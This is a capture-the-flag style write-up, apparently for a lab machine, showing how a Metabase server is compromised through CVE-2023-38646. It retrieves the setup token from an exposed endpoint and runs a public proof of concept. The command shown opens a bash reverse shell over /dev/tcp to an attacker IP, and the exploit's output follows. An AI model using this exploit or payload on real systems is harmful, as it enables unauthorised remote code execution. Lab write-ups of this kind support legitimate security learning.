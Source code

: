 Metabase is an open-source business intelligence platform. You can use Metabase to ask questions about your data, or embed Metabase in your app to let your customers explore their data on their own.


Further information: [https://www.metabase.com/docs/latest/](https://www.metabase.com/docs/latest/){:target="_blank"}

**We try some default credentials, without success.**

**We have a look for known vulnerabilities** on Metabase software and we find an interesting one:

 [https://nvd.nist.gov/vuln/detail/CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646){:target="_blank"}

**CVE-2023-38646**

This vulnerability, exists in the /api/setup/validate API endpoint and would allow attackers to execute malicious commands on the server with elevated privileges, gaining full control over the application environment.

If we look for some exploits on internet we can find some of them.

**We will use this one**

[https://github.com/m3m0o/metabase-pre-auth-rce-poc](https://github.com/m3m0o/metabase-pre-auth-rce-poc){:target="_blank"}

The exploit just needs as paramter the setup token, which we can get it from this accessible endpoint
**http://data.analytical.htb/api/session/properties** and the command we want to execute.

![](./assets/images/analytics_enum02.jpg)


## EXPLOITATION

Using the exploit, let's see if we are able to get a reverse shell.


We run the exploit passing the setup token and the bash command to execute the reverse shell

```bash 
# python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.192/443 0>&1"
[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]

[+] Initialized script
[+] Encoding command
[+] Making request
[+] Payload sent
```
